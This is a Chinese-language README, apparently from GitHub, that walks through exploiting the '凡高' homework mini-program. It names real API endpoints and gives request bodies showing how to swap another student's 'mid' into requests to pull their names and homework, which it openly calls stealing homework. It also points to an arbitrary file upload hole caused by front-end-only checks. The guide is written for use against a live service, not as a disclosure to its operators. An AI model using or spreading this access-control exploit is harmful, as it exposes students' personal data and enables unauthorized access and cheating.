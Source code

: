 # 凡高的抓包及逆向分析
### 我们通过逆向可以知道啥
我们不妨可以通过逆向可以看看凡高这个 *** 写了什么屌代码
##### 因为这里存在高危漏洞，不方便放出来，有技术的哥们自己悟吧！（你们的渗透与我无关，我并未提供任何技术细节及暗示）

 我们通过逆向项目小程序代码发现其中作业提交有巨大的安全隐患，对于图片的格式认证只做了前端认证，理论是只要绕过前端就可以实现任意文件上传，恰恰这个 *** 做了前后端分离，这就直接导致我们可以通过调取api的方式获取到上传权限。。。
（这个东西涉及渗透，所以我教不了，大家自己研究研究吧）

### 我们通过抓包可以知道啥
我们都知道，其中有一个功能很神奇叫做==互相判作业==,这个玩意就是我们突破的关键，why？因为这个东西很神奇，因为我根本不知道我会批改谁的作业，所以这里的权限管理十分混乱，所以就导致我登录凭证是A，但我可以访问B的作业。这便是我们偷作业的基本实现逻辑。

因为主播也怕给自己找麻烦，所以只提供部分的指导，我相信有志之士将会根据我的部分代码及逻辑开发出相应的应用程序的。

好了废话不多说直接开始

#### api库
##### 1.用户信息

| 请求方式 | 请求url                                                 |
| ---- | ----------------------------------------------------- |
| post | https://api.fangao.100eks.com/member.miniprogram.auth |

这个需要wxcode的唯一认证，所以我们获取token的方式只有抓包。（不会抓包的放弃吧）

##### 2.作业列表

| 请求方式 | 请求url                                                |
| ---- | ---------------------------------------------------- |
| post | https://api.homework.100eks.com/member.homework.list |

这个就需要我们手动改包和发包了
不妨给您看看包的结构
```
{
"request" : {
	"mid":88888888,
	"subject_id":1,
	"page":1,
	"pageSize":10}
}
```
很好，这就是发包的内容，我们需要做什么？
只需要把你想偷人的==mid==换上去即可，这时候有聪明的小伙伴问了：主播主播，你的技术确实很强，但我怎么知道别人的的mid呢？（其实在你mid的基础上改个十位的数字就好了）。
> 还有重要的不要忘记请求头加上你的token

好了，这样我们就可以收到想下面这样的data
```
{ 
	"code": 0, 
	"msg": "请求成功", 
	"time": 000000000, 
	"data": [ { 
		"chid": 000000, 
		"hid": 0000, 
		"subject_name": "语文", 
		"subject_id": 1, 
		"username": "name", 
		"mid": 00000000, 
		"homework_title": "语文寒假作业", 
		"start_date": "2025-00-00 00:00:00", 
		"end_date": "2025-00-00 00:00:00", 
		"status": 0, 
		"type": "homework", 
		"homework_type": 1 }, 
		// 其他类似的作业条目... 
	] }
```
大家可以通过识别上面的username，来检查是否成功。
我们需要上面的一些信息让我们完成后面的部分

#### 3.作业页

| 请求方式 | 请求url                                                        |
| ---- | ------------------------------------------------------------ |
| post | https://api.homework.100eks.com/member.homework.success.card |
发包内容
```
{
"request" : {
	"mid":88888888,
	"hid":"0000"
	}
}
```
修改方式同上
这样简单的偷作业就完成了。
